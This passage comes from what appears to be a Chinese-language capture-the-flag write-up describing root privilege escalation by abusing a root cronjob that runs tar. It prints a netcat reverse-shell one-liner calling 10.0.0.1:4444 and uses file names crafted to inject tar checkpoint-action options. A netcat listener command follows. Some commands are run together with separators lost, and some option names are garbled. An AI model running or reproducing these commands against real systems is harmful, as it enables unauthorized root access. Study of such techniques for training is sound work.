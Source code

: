 **在这之后，我导航到用户 ghost 的主目录并获得第二个用户标志。**

# ****根权限提升****

**现在我已经有了两个用户标志，我开始寻找任何方法将我的权限提升到 root。在寻找特权提升漏洞时，我决定检查是否有任何有趣的 **cronjobs** 正在运行。**

**![](img/e5a0e0fe07bedf7cc8b4de6b5beb7cd8.png)**

**我看到一个有趣的 **cronjob** 正在由用户 **root** 运行。这个 cronjob 执行一系列命令，将用户 ghost 的主目录中的所有文件归档到一个 **tar** 文件中。在搜索了使用 tar 文件提升权限的方法之后，我看到了一篇名为“*利用通配符提升权限*”的文章。在本文中，我发现了如何通过输入以下命令使用 **Tar 通配符注入**来提升我的权限。**

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f" > shell.shecho "" > "--checkpoint-action=exec=sh shell.sh"echo "" > --checkpoint=1
```

**这些命令的工作方式如下:**

*   **创建一个反向 shell，并将其存储在一个名为 **shell.sh** 的文件中。**
*   ****–检查点[=数字]** 显示每个数字记录的进度消息(默认为 10)。**
*   ****–check point-ACTION = ACTION**对每个检查点执行操作。在第一个文件归档后运行文件 shell.sh。由于 crontab 的原因，tar 命令以 root 用户身份运行，这会产生一个 netcat shell，并将其发送到端口 4444 上的攻击平台。**

**接下来，我在我的主机设备上为端口 4444 上的任何传入连接设置一个 netcat 监听器。**

```
nc -lvnp 4444
```

**几分钟后，我得到一个具有 root 权限的反向 shell。然后，我可以切换到根目录，并获得最终的根用户标志😄！**

**![](img/b63c17798f7a5c5fe83e21391c3405ce.png)**
